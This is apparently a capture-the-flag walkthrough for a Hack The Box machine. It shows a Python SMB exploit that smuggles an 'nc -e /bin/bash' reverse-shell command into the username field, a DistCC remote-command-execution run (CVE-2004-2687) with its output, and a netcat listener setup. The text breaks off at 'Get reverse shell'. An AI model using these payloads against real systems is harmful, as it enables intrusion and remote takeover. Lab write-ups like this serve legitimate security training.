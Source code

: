 	``` python
	#!/usr/bin/python

	from smb.SMBConnection import SMBConnection
	from smb import smb_structs
	smb_structs.SUPPORT_SMB2 = False
	import sys
	if len(sys.argv) < 2:
	    print "\nUsage: " + sys.argv[0] + " <HOST>\n"
	    sys.exit()



	username = "/=`nc -e /bin/bash 10.10.14.4 4444`"
	password = ""
	conn = SMBConnection(username, password, "HACKTHEBOX" , "HTB", use_ntlm_v2 = False)
	assert conn.connect(sys.argv[1], 445)
	```

## CVE-2004-2687

### <a href='https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855' target="blank">DistCC Daemon - Command Execution (Python)</a>

=== "DistCC RCE"

	Execute payload with ping command

	```
	┌──(Hades㉿10.10.14.4)-[1.5:16.3]~
	└─$ python distccd_rce_CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "ping -c 2 10.10.14.4"
	[OK] Connected to remote service

	--- BEGIN BUFFER ---

	PING 10.10.14.4 (10.10.14.4) 56(84) bytes of data.
	64 bytes from 10.10.14.4: icmp_seq=1 ttl=63 time=235 ms
	64 bytes from 10.10.14.4: icmp_seq=2 ttl=63 time=234 ms

	--- 10.10.14.4 ping statistics ---
	2 packets transmitted, 2 received, 0% packet loss, time 1005ms
	rtt min/avg/max/mdev = 234.636/235.127/235.618/0.491 ms


	--- END BUFFER ---

	[OK] Done.
	```

	Create a listener in Kali machine.

	``` bash
	sudo nc -nvlp 4444
	```

	Get reverse shell
